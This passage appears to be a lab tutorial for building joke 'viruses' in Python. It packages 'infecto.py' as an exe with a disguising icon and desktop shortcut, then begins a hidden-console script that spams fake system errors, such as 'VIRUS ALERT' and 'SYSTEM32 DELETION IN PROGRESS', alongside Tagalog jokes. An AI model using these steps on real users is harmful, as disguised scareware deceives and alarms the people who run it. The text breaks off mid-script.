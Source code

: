 Prepare the Icon

#### Go to: https://www.iconarchive.com/
##### Download and Rename the file (example: infecto.ico).
##### Move it to the same folder as your infecto.py.
##### Take note: whatever you name the .ico file is what you must also put in the PyInstaller command.

Paste this: 
```bash
pip install pyinstaller
```
```bash
pyinstaller --onefile --windowed --icon=infecto.ico infecto.py
```
#### 2. Create the Desktop Shortcut
- Right-click Desktop → New → Shortcut
- Browse to: C:\Users\Administrator\Downloads\LAB\InfectoV\dist\infecto.exe
- Right-click the shortcut → Properties → Change Icon
- Select your infecto.ico.

# Virus 2

### Step 1: Inside the malware folder add a new folder (vs code) name it virus2

### Step 2: Setup your Virtual Environment
Open vs code and in the terminal move out of directory:
```bash
cd ..
```
```bash
cd virus2
````
Install Required Library
```bash
pip install pywin32
```

### Step 3: Fake_error.py
```bash
import random
import time
import win32gui
import win32con
import ctypes
import sys
from threading import Thread

# ===== CONFIG =====
MAX_SPEED = True          # Set to False for less aggressive spamming
HIDE_CONSOLE = True      # Run completely in background
# ==================


ERROR_MESSAGES = [
    "CRITICAL SYSTEM FAILURE: Hoy, magbayad ka na ng utang mo!",
    "VIRUS ALERT: May balance ka pa sa utang mo!",
    "BSOD IMMINENT: 0x0000007B Mabagal ang iyong PC",
    "ERROR: Kulang ka sa tulog at pagmamahal.",
    "WARNING: Nag-ooverheat na CPU mo.",
    "ALERT: Puno na ang memory, i-delete mo na mga screenshot ng ex mo!",
    "SYSTEM32 DELETION IN PROGRESS: 37% complete",
```